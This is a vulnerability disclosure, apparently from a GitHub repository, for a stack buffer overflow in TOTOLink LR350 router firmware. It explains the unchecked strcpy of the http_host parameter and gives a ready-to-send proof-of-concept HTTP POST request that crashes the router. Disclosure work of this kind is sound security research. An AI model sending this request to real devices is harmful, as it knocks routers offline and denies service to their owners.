

# TOTOLink Vulnerability

Vendor:TOTOLink 

Product:LR350

Version:V9.3.5u.6369_B20220309(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan

Mail:chuanhaowan@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the sub_426EF8 function, the http_host parameter is obtained via websGetVar(Object, "http_host", (int)&byte_431160) and, when *v8 is non-empty, passed to the strcpy function, copying to the target buffer v30. The strcpy function does not restrict the length of the input v8 (i.e., http_host), and the target buffer v30 is a fixed-size array (char v30[256]). When the http_host parameter is excessively long (exceeding 255 bytes, accounting for the null terminator), strcpy(v30, v8) can trigger a buffer overflow, overwriting adjacent stack data or the return address, resulting in a Denial of Service (DoS) attack.

<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
POST /cgi-bin/cstecgi.cgi HTTP/1.1

Host: 192.168.6.15

Content-Length: 557

X-Requested-With: XMLHttpRequest

Accept-Language: en-US,en;q=0.9

Accept: application/json, text/javascript, */*; q=0.01

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

Origin: http://192.168.6.15

Referer: http://192.168.6.15/phone/login.html

Accept-Encoding: gzip, deflate, br

Connection: close


{

"topicurl":"loginAuth",

"http_host":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAASA"

}
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>